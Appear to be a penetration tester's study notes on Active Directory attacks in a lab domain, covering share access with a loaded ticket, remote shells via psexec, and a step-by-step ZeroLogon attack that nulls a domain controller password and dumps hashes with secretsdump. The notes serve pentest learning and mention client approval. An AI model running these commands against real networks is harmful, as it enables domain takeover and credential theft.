 - `misc::cmd`    to open new terminal with the ticket loaded
  =>
  from here -->  <span style="color:#00b050">we can access to any PC in the domain</span>
  example:
  access the THEPUNISHER C drive:
  `dir \\THEPUNISHER\c$`
  ![[Pasted image 20240304123147.png]]

<span style="background:#fff88f">what can we do now:</span>
- we can download here [[cheat#psexec.py|psexec]] 
- <span style="color:#00b050">gain access to THEPUNISHER machine</span> 
  example:
  `psexec.exe \\THEPUNISHER cmd.exe`

### Additional AD Attacks
- <span style="color:#00b050">ZeroLogon</span> -->  if you miss something in this attac
- <span style="color:#00b050">PrintNightmare</span>
- <span style="color:#00b050">Sam the Admin</span>

it's worth checking for these vuln -->  but you shouldn't exploit them unless with client approves

how to check:
there are tools for checking if -->  a domain is affected by these vuln

#### Abusing ZeroLogon
#AD_tool
It's a dangerous attack to run
<span style="background:#fff88f">what is capable of doing:</span>
- attacking a Domain Controller
- setting the domain controller password -->  to <span style="color:#00b050">null</span>
- take over the domain controller

> [!warning] If you don't restore the password
we will -->  break the Domain Controller

- clone this [repo](https://github.com/dirkjanm/CVE-2020-1472)
- you must have:
	- the latest Impacket tool version
	- python >= 3.7
- cd the repo
- save from this [repo](https://github.com/SecuraBV/CVE-2020-1472) -->  the `zerologon_tester.py` 
- put it inside the first repo that you cloned
- this script checks if the domain is vulnerable to Zerologon attack:
  =>
  `python3 zerologon_tester.py HYDRA-DC <domain controller IP>`
  ![[Pasted image 20240304152050.png]]
- in this way you can inform your client that:
	- he is vulnerable to this attack
	- he can fix it (without demonstrate with the real exploit)

if you want to run the attack:
- `python3 cve-2020-1472-exploit.py HYDRA-DC <domain controller IP>`
  ![[Pasted image 20240304152439.png]]
- to check if the script has changed the Domain Controller password:
  `secretsdump.py -just-dc MARVEL/HYDRA-DC\$@<domain controller IP>`
- at this point we own this Domain Controller
